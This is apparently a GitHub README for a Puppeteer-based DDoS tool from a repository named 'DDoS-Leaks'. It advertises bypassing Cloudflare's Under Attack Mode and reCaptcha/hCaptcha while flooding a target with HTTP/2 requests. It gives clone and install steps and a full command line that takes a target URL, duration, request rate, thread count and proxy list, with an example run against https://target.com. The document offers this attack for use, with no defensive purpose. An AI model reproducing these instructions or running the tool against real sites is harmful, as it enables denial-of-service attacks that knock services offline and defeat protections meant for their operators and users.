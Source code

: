 <p align="center">
The new method, utilizing a native browser with Puppeteer, can bypass captcha, Cloudflare UAM, reCaptcha, hCaptcha, and 0% HTTP DDOS.
</p>

#
## First install the required modules

```bash
node setup.js
```

# Real browser Leaks

- High Requests HTTP/2.0 ( 1M Req )
- Bypass UAM HTTP/2.0 ( Cloudflare )
- Bypass Captcha ( Cloudflare )
- 0% HTTP DDOS
- Support %RAND%

## How to use (git clone)

1. Download or git clone this repository:

    ```bash
    git clone https://github.com/DDoS-Leaks/Browser/
    ```

2. Navigate to the cloned repository:

    ```bash
    cd Browser
    ```

3. Run the `browser.js` script:

    ```bash
    node browser.js
    ```
    
## Run the script

```bash
xvfb-run -a node browser.js url time rps thread proxy.txt --rand true/false --smart true/false
```

```bash
node browser.js https://target.com 300 120 15 http.txt --rand true --smart true
```
